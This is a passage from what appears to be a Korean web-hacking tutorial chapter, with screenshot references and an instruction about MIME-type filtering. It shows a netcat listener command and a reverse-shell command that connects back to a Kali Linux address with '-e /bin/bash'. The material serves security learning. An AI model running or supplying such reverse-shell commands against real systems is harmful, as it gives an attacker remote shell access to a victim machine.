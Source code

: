 <div align="center" >
<img src="/Art of Web Hacking/Chapter17/003.png" width="520" height="320"> <br>
</div>스샷. 3<br>
- 그전에 먼저 Filter by MIME type에서 Other binary 체크
하셔야 모든 게 보입니다.
<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%">nc&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>lvnp&nbsp;<span style="color:#308ce5">4000</span></div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>

-먼저 서버로 실행해두시고<br>
<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%">nc&nbsp;칼리리눅스&nbsp;주소&nbsp;<span style="color:#308ce5">4000</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>e&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>bin<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>bash</div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>
- nc 접속을 위한 명령문<br>
<br>
<div align="center" >
<img src="/Art of Web Hacking/Chapter17/004.png" width="520" height="35"> <br>
</div>스샷. 4<br>